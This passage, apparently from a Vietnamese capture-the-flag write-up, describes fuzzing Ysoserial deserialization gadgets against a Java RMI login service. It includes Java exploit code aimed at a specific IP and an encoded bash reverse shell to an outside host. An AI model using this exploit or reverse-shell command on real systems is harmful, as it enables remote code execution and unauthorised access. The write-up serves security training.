 ## Fuzz Ysoserial Payloads

- Fuzz toàn bộ payloads của Ysoserial
- Lúc này server sẽ trả về lỗi của từng loại payloads, mà điển hình là exception **ClassNotFoundException** - server không tồn tại classpath. (Vì ở bài này có trả về exceptions, nên không bắt buộc dùng **GadgetProbe**)
- Lọc những payloads bị **ClassNotFoundException** sẽ thu về một danh sách payloads tiềm năng hơn.

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import ysoserial.payloads.*;


public class ASCISPlayer {
    public ASCISPlayer() {
    }
    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Set cmd, cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
         String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDMuOTIuMjguMTg3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";

        String []ALL_GADGETS = {"BeanShell1", "Clojure", "FileUpload1", "Hibernate1", "Hibernate2", "Hibernate2",
                "C3P0","CommonsBeanutils1", "CommonsCollections1", "CommonsCollections2",
                "CommonsCollections3", "CommonsCollections4", "CommonsCollections5", "CommonsCollections6",
                "Groovy1", "JavassistWeld1", "JBossInterceptors1", "Jdk7u21", "JRMPClient", "JRMPListener", "JSON1", "Jython1",
                "MozillaRhino1", "MozillaRhino2", "Myfaces1", "Myfaces2",
                "ROME", "Spring1", "Spring2"};
        
        for (String payloadType:ALL_GADGETS){
//            System.out.println("Checking " + payloadType + " ...");
            try {
                // Use ysoserial generate payloads
                Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass(payloadType);
                ObjectPayload object = (ObjectPayload)payloadClass.newInstance();
                Object payload = object.getObject(cmd);

                // Pass to ASCISInterf.login()
                ascisInterf.login(payload);
            }
            catch (Exception e) {
                if (e.toString().indexOf("ClassNotFoundException") == -1){
                    System.out.println("[*] Potential payload: " + payloadType);
//                    e.printStackTrace();
                    System.out.println(e);
                }
            }
```